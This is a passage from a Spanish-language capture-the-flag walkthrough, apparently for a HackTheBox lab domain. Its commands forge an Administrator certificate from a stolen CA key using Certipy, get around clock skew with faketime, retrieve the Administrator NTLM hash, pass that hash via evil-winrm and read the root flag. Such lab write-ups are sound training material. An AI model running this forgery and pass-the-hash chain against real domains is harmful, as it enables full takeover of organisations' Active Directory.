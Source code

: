### 8.7 Certificate Forgery - Crear Certificado de Administrator

**En Kali:**
```bash
cd ~/Certificate/Certipy

# Verificar que tenemos el ca.pfx
ls -la ca.pfx

# Forjar certificado de Administrator
python3 certipy/entry.py forge \
    -ca-pfx ca.pfx \
    -ca-password 'password' \
    -upn 'administrator@certificate.htb' \
    -subject 'CN=Administrator,CN=Users,DC=certificate,DC=htb' \
    -out admin.pfx

# Verificar creación
ls -la admin.pfx
```

### 8.8 Autenticarse como Administrator

```bash
# Intentar autenticación (probablemente fallará por tiempo)
python3 certipy/entry.py auth -dc-ip '10.10.11.71' -pfx 'admin.pfx'

# Usar faketime para solucionar el problema de tiempo
faketime '2025-09-18 04:10:00' python3 certipy/entry.py auth -dc-ip '10.10.11.71' -pfx 'admin.pfx'

# Output exitoso:
# [*] Got hash for 'administrator@certificate.htb': aad3b435b51404eeaad3b435b51404ee:d804304519bf0143c14cbf1c024408c6
```

### 8.9 Acceso como Administrator

```bash
# Conectarse con el hash de Administrator
evil-winrm -i 10.10.11.71 -u administrator -H d804304519bf0143c14cbf1c024408c6
```

### 8.10 Obtener la Flag Root

```powershell
# Verificar que somos Administrator
whoami
# Output: certificate\administrator

# Navegar al escritorio
cd C:\Users\Administrator\Desktop

# Listar archivos
dir

# Leer la flag root
type root.txt
# Flag: ****************************
```

---